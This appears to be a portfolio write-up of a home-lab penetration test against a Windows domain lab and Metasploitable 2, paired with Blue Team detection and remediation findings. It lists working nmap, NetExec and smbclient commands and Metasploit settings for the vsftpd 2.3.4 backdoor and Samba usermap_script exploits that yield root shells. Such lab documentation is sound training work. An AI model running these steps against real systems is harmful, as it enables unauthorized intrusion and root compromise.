









OFFENSIVE SECURITY • PENETRATION TESTING
Offensive Security &
Penetration Testing
A multi-stage offensive-security project combining reconnaissance and service enumeration against a Windows enterprise lab with controlled exploitation exercises against intentionally vulnerable systems. The project documents attacker preparation, attack-surface analysis, vulnerability validation, privilege verification, defensive detection, and remediation-focused reporting.

01 — OVERVIEW
Project Overview
This project documents a multi-stage offensive-security engagement conducted entirely within a personally managed VirtualBox environment.
The primary engagement focuses on reconnaissance and attack-surface analysis against the Windows enterprise environment I built, including DC01, WS01, and FS01. As the engagement progresses, testing will expand into SMB, LDAP, Kerberos, credential, privilege-escalation, and lateral-movement techniques.
A separate controlled-exploitation engagement preserves my earlier work against Metasploitable 2. That training environment was used to practice vulnerability validation, Metasploit module configuration, remote-session handling, root-level access verification, and professional findings documentation.
Offensive activity against the enterprise environment is also being paired with the Blue Team lab so the same actions can be monitored, investigated, and eventually interrupted from the defensive side.
02 — ENVIRONMENT
Assessment Architecture
ATTACKER
Kali Linux
Offensive workstation used for discovery, enumeration, exploitation, and validation.
ENTERPRISE TARGETS
DC01 • WS01 • FS01
Windows domain controller, workstation, and file server used for realistic enterprise testing.
TRAINING TARGET
Metasploitable 2
Intentionally vulnerable Linux system used for controlled exploitation practice.
DEFENSIVE VALIDATION
Blue Team Monitoring
Centralized logging and detection environment used to observe and investigate offensive activity.
03 — METHODOLOGY
Engagement Methodology
Attacker Preparation
Configure Kali Linux, validate network access, and verify the offensive toolset.
Enterprise Reconnaissance
Discover live systems, identify infrastructure roles, and establish scope.
Host & Service Enumeration
Profile DC01, WS01, and FS01 to map exposed services and potential attack paths.
Active Directory Assessment
Expand into SMB, LDAP, Kerberos, credential, privilege-escalation, and lateral-movement testing.
Defensive Detection Validation
Correlate attacker actions with Blue Team telemetry, detections, and response.
Controlled Exploitation Training
Use intentionally vulnerable systems to practice exploitation, session handling, and reporting.
04 — ENGAGEMENT ONE
Enterprise Penetration Test
The enterprise engagement is the primary and actively expanding portion of this project. It follows the attack path from initial Kali preparation and host discovery through service enumeration and future Active Directory testing.
ENTERPRISE STEP 01
Attacker Environment Preparation
Kali was configured on the isolated enterprise network and assigned 192.168.10.50/24.
Connectivity to DC01 was validated, then Nmap, NetExec, and SMBMap were confirmed before testing.
Preparation Workflow
Kali Linux
│
▼
Network Configuration
│
▼
Connectivity Validation
│
▼
Reconnaissance Tool Verification
│
▼
Assessment Platform Ready
Network configuration and connectivity were validated before reconnaissance.
Nmap, NetExec, and SMBMap were verified before the assessment.
ENTERPRISE STEP 02
Enterprise Network Reconnaissance
An Nmap ping scan across 192.168.10.0/24 identified the core enterprise assets.
DC01 was identified at 192.168.10.10, WS01 at 192.168.10.20, and FS01 at 192.168.10.30.
Follow-up enumeration of DC01 exposed DNS, Kerberos, LDAP, SMB, RPC, and related Active Directory services.
Commands
nmap -sn 192.168.10.0/24
nmap -Pn -sV -sC 192.168.10.10
Host discovery identified DC01, WS01, and FS01, followed by service enumeration of DC01.
ENTERPRISE STEP 03
File Server Service Enumeration
Targeted enumeration against FS01 identified Windows RPC, SMB, and HTTP-based services.
SMB fingerprinting provided host and protocol details relevant to future share, authentication, and signing analysis.
Command
nmap -Pn -sV -sC 192.168.10.30
FS01 enumeration identified RPC, SMB, HTTP-related services, and SMB configuration details.
ENTERPRISE STEP 04
Workstation Service Enumeration
Enumeration of WS01 identified Windows RPC, SMB, and HTTP-based services.
The results established a baseline for future endpoint, credential, and lateral-movement testing.
Command
nmap -Pn -sV -sC 192.168.10.20
WS01 enumeration identified Windows services and workstation fingerprinting information.
ENTERPRISE STEP 05
SMB Authentication Testing
After identifying the enterprise hosts and profiling their exposed services, I performed controlled SMB authentication testing using NetExec to evaluate authentication behavior across the Windows environment.
Rather than attempting exploitation, this phase focused on validating authentication responses using intentionally invalid credentials. This approach provides valuable reconnaissance by confirming domain membership, SMB configuration, account handling, and security controls while remaining within an authorized testing scope.
Authentication attempts were performed against the domain controller (DC01), workstation (WS01), and file server (FS01). DC01 and FS01 returned STATUS_LOGON_FAILURE, confirming the supplied credentials were rejected. The assessment also identified SMB signing configuration differences between systems, an important observation for future Active Directory attack-path analysis.
BLUE TEAM CORRELATION
The failed SMB authentication attempts documented in this step generated Windows Security Event ID 4625. These events were centrally collected through Windows Event Forwarding and investigated within the Blue Team Operations & Detection Engineering project. project.
Command
netexec smb 192.168.10.10 -u ecarter -p WrongPassword123!
netexec smb 192.168.10.20 -u ecarter -p WrongPassword123!
netexec smb 192.168.10.30 -u ecarter -p WrongPassword123!
Controlled SMB authentication testing against DC01, WS01, and FS01 validated authentication responses, identified SMB signing behavior, and generated Windows Security Event ID 4625 for Blue Team investigation.
ENTERPRISE STEP 06
SMB Share Enumeration
Following successful authentication testing, I established an authenticated SMB session against the Finance share hosted on FS01 to identify accessible resources available to the test account.
Using smbclient, I enumerated the directory structure, confirmed access permissions, and identified several business-related files including departmental folders, payroll information, budgeting documents, and shared documentation.
This phase focused on understanding the organization's available resources rather than modifying data. Enumerating accessible shares is a critical reconnaissance step because it reveals potential locations of sensitive information that may become objectives during later stages of an assessment.
Commands
smbclient //192.168.10.30/Finance -U HANES/ecarter
ls
get ReadMe.txt
Authenticated enumeration of the Finance share validated read permissions, identified accessible business documents, and established the scope of available data within the enterprise file server.
ENTERPRISE STEP 07
Authorized File Operations Validation
After identifying accessible resources within the Finance share, I performed controlled file operations to validate the permissions assigned to the authenticated user account.
A test file (HEL.txt) was uploaded to the share, verified through directory enumeration, and then removed after testing was complete. These actions confirmed that the account possessed write and delete permissions within the authorized environment.
Performing controlled file operations provides a realistic assessment of user permissions while minimizing impact to the environment. Restoring the share to its original state after testing reflects standard security assessment practices.
These actions also generated Windows Security Event ID 5145, allowing the activity to be investigated from the defender's perspective within the Blue Team Operations project.
Commands
put HEL.txt
ls
del HEL.txt
lsBLUE TEAM CORRELATION
Uploading and deleting HEL.txt generated Windows Security Event ID 5145, allowing this activity to be investigated in the Blue Team Operations & Detection Engineering project.

Controlled upload, verification, and removal of HEL.txt confirmed write and delete permissions within the Finance share while generating Windows Security Event ID 5145 for defensive investigation.
05 — ROADMAP
Enterprise Assessment Roadmap
The enterprise penetration test is still in active development. Future evidence will be added as each stage is completed and validated.
NEXT PHASE
SMB Enumeration
Enumerate shares, permissions, signing behavior, and authentication exposure.
PLANNED
LDAP & Directory Enumeration
Gather domain, user, group, computer, and directory information.
PLANNED
Kerberos Assessment
Evaluate Kerberos-related exposure and potential ticket-based attack paths.
PLANNED
Credential Testing
Conduct controlled authentication and credential validation.
PLANNED
Privilege Escalation & Lateral Movement
Validate access-expansion paths after initial compromise.
PLANNED
Detection & Response Validation
Compare attacker actions with Blue Team telemetry, detections, and response.
06 — ENGAGEMENT TWO
Controlled Exploitation Validation
Before expanding into the enterprise assessment, I used Metasploitable 2 as a controlled training target to practice exploitation methodology, remote-session handling, privilege verification, and remediation-focused reporting.
TRAINING STEP 01
Target Discovery & Initial Scanning
I verified connectivity to 192.168.56.101 and ran an initial Nmap scan.
Command
nmap 192.168.56.101
Initial reconnaissance identified exposed TCP services on the training target.
TRAINING STEP 02
Service & Version Enumeration
Service detection identified numerous legacy services, including FTP, SSH, Telnet, Samba, databases, VNC, and web services.
FTP on TCP port 21 was identified as vsftpd 2.3.4.
Command
nmap -sV 192.168.56.101 -oN service_scan.txt
Service-version detection identified legacy software and candidate attack paths.
TRAINING STEP 03
Detailed Enumeration
A detailed scan collected operating-system context and additional application information.
Command
nmap -A 192.168.56.101 -oN detailed_scan.txt
Detailed enumeration provided context used to prioritize controlled testing.
TRAINING STEP 04
VSFTPD Vulnerability Validation
I configured the Metasploit VSFTPD 2.3.4 backdoor module and reviewed the target and listener settings before execution.
Metasploit Module
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set LHOST 192.168.56.102
show options
The VSFTPD module was configured and reviewed before controlled execution.
TRAINING STEP 05
Successful Exploitation & Privilege Validation
The VSFTPD module established a remote session, and shell validation returned root.
Validation
run
shell
whoami
ls
The VSFTPD exploit established an interactive remote session.

Shell validation confirmed root-level command execution.
TRAINING STEP 06
Samba Remote Command Execution Validation
The Metasploit user_map_script module established a remote shell, and whoami returned root.
Metasploit Module
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set LHOST 192.168.56.102
run
whoami
The Samba module established a remote command shell.

The remote shell returned root, validating privileged command execution.
07 — VALIDATED FINDINGS
Controlled Exploitation Findings
FINDING 01
VSFTPD 2.3.4 Backdoor
Controlled testing confirmed unauthorized remote access and root-level command execution.
Evidence
Metasploit established a remote session, and shell validation returned root.
Impact
Successful exploitation may allow complete system compromise and further attacks.
Mitigation
Remove the vulnerable release, install a supported version, disable unnecessary FTP, and restrict access.
FINDING 02
Excessive Exposed Network Services
Enumeration identified more than 20 exposed TCP services, including legacy protocols and remote-access interfaces.
Evidence
Nmap exposed a broad set of remotely accessible services.
Impact
A large attack surface increases the likelihood of exploitable software and weak configurations.
Mitigation
Disable unnecessary services, restrict ports, segment sensitive systems, and follow least functionality.
FINDING 03
Samba Remote Command Execution
Controlled testing confirmed a remote command shell with root privileges.
Evidence
The usermap_script module established a shell, and whoami returned root.
Impact
Remote root execution may allow full system control and further attacks.
Mitigation
Replace unsupported Samba versions, restrict SMB, disable unnecessary services, and segment administrative protocols.
08 — CURRENT OUTCOMES
Project Outcomes
PREPARATION
Validated Attack Platform
Established connectivity and verified the offensive toolset.
ENTERPRISE RECON
Asset & Role Discovery
Identified DC01, WS01, and FS01 and mapped their roles.
ENUMERATION
Service Attack-Surface Mapping
Profiled services across the enterprise environment.
EXPLOITATION
Controlled Remote Attack Paths
Confirmed exploitable weaknesses in VSFTPD and Samba.
ACCESS
Root-Level Execution
Verified privileged command execution through remote shells.
REPORTING
Actionable Remediation
Documented evidence, impact, severity, and mitigation.
09 — SKILLS DEMONSTRATED
Technical Skills Demonstrated
PREPARATION
Kali Linux
Configured the attacker workstation and verified the toolset.
RECONNAISSANCE
Enterprise Host Discovery
Identified live hosts and infrastructure roles.
ENUMERATION
Windows Service Analysis
Profiled DC01, WS01, and FS01 services.
EXPLOITATION
Metasploit Framework
Executed controlled modules against vulnerable services.
POST-EXPLOITATION
Privilege Verification
Confirmed compromise and root-level execution.
REPORTING
Security Assessment Reporting
Communicated evidence, impact, severity, and remediation.
10 — LESSONS LEARNED
Lessons Learned & Project Direction
01 — PREPARATION
Validate the Platform First
Network and tool validation reduced uncertainty before testing.
02 — SCOPE
Asset Roles Shape the Attack Surface
Domain controllers, workstations, and file servers expose different attack paths.
03 — ENUMERATION
Open Ports Are Starting Points
Service, version, host, and role context are required before selecting a path.
04 — VALIDATION
Evidence Matters More Than Assumptions
Controlled testing distinguished exploitable weaknesses from observations.
05 — DEFENSE
Offense and Detection Should Be Connected
Pairing attacker actions with Blue Team telemetry strengthens both projects.
06 — REPORTING
Findings Must Support Remediation
Evidence and impact are most useful with practical mitigation guidance.
CURRENT TAKEAWAY
From Training Exploitation to Enterprise Assessment
The project has progressed from exploitation practice against intentionally vulnerable systems into a broader enterprise penetration test.
Future evidence will document deeper Active Directory testing and show how the Blue Team environment detects and responds to the same activity.
AUTHORIZED LAB SCOPE
All testing documented in this project was performed in a personally controlled VirtualBox environment against systems I own and administer, including intentionally vulnerable training targets and the Windows enterprise lab built for cybersecurity education.